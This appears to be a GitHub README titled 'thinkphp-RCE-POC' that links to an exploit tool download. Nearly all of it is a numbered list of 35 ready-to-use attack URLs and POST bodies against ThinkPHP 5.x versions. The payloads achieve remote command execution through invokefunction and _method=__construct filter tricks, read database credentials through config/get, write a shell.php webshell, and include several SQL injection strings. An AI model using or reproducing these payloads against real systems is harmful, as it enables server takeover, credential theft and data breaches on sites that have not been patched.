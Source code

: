 # thinkphp-RCE-POC</br>
> thinkphp [利用工具下载](https://github.com/helloexp/0day/releases/tag/v1.1_thinkphp)  


## 官方公告:</br>
1、https://blog.thinkphp.cn/869075</br>
2、https://blog.thinkphp.cn/910675</br>

POC：</br>
## thinkphp 5.0.22</br>
1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username</br>
2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password</br>
3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
## thinkphp 5</br>
5、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1</br>
## thinkphp 5.0.21</br>
6、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id</br>
7、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
## thinkphp 5.1.*</br>
8、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1</br>
9、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd</br>
10、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E</br>
11、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E</br>
12、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
13、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
14、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1</br>
15、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd</br>
## 未知版本</br>
16、?s=index/\think\module/action/param1/${@phpinfo()}</br>
17、?s=index/\think\Module/Action/Param/${@phpinfo()}</br>
18、?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}</br>
19、index.php?s=/home/article/view_recent/name/1' </br>
    header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"</br>
20、index.php?s=/home/shopcart/getPricetotal/tag/1%27</br>
21、index.php?s=/home/shopcart/getpriceNum/id/1%27</br>
22、index.php?s=/home/user/cut/id/1%27</br>
23、index.php?s=/home/service/index/id/1%27</br>
24、index.php?s=/home/pay/chongzhi/orderid/1%27</br>
25、index.php?s=/home/pay/index/orderid/1%27</br>
26、index.php?s=/home/order/complete/id/1%27</br>
27、index.php?s=/home/order/complete/id/1%27</br>
28、index.php?s=/home/order/detail/id/1%27</br>
29、index.php?s=/home/order/cancel/id/1%27</br>
30、index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+</br>
31、POST /index.php?s=/home/user/checkcode/ HTTP/1.1</br>
    Content-Disposition: form-data; name="couponid"</br>
    1') union select sleep('''+str(sleep_time)+''')#</br>
    
    
## thinkphp 5.0.23（完整版）debug模式</br>
32、(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx</br>
## thinkphp 5.0.23(完整版)</br>
33、（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al</rb>
## thinkphp 5.0.10（完整版）</br>
34、(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system</rb>
## thinkphp 5.1.* 和 5.2.* 和 5.0.*</br>
35、(post)public/index.php (data)c=exec&f=calc.exe&_method=filter
